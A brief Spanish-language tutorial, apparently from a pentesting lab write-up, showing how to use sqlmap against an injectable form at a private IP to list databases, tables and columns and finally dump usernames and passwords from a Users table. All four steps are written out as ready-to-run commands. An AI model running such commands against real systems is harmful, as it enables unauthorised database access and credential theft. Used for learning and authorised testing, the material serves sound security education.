 En el punto vulnerable a una sql injection con sqlmap con este parámetro obtenemos las bases de datos:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms --dbs --batch
```

Ahora supongamos que encontramos una base de datos llamada Wepapp, vamos a atacarla, si queremos ver las tablas con sqlmap, debemos usar el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp --tables --batch
```

Supongamos que vemos una tabla users, para ver las columnas de la tabla Users, lo haríamos de la siguiente forma:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users --columns --batch
```

Y ahora para ver todos estos registros con los usuarios y contraseñas, lo haríamos con el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users -C password,id,username --dump --batch
```
